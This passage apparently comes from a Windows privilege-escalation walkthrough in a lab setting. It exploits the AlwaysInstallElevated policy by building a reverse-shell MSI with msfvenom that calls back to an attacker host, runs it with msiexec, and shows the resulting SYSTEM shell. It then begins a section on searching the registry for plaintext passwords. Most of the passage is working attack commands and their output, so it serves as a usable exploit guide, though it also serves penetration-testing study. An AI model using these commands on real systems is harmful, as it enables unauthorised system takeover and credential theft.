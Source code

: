   
* Alternatively, verify the values manually:
	> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated    
	> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```powershell
C:\PrivEsc\tools>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\PrivEsc\tools>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

2. Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.164 LPORT=53 -f msi -o reverse.msi

3. Copy to payload to windows machine and execute it.
> copy \\\192.168.1.164\tools\reverse.msi C:\PrivEsc\tools\reverse.msi   
> msiexec /quiet /qn /i C:\PrivEsc\tools\reverse.msi
```powershell
C:\PrivEsc\tools>copy \\192.168.1.164\tools\reverse.msi C:\PrivEsc\tools\reverse.msi
copy \\192.168.1.164\tools\reverse.msi C:\PrivEsc\tools\reverse.msi
        1 file(s) copied.

C:\PrivEsc\tools>msiexec /quiet /qn /i C:\PrivEsc\tools\reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\tools\reverse.msi

[*] Command shell session 14 opened (192.168.1.164:53 -> 192.168.1.174:52914) at 2021-10-26 17:01:35 -0400

C:\PrivEsc\tools>sessions 14
[*] Backgrounding session 11...
[*] Starting interaction with 14...

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Passwords
### Registry   
Plenty of programs store configuration options in the Windows Registry.
Windows itself sometimes will store passwords in plaintext in the Registry.
It is always worth searching the Registry for passwords.
The following commands will search the registry for keys and values that contain “password”
> reg query HKLM /f password /t REG_SZ /s    
> reg query HKCU /f password /t REG_SZ /s
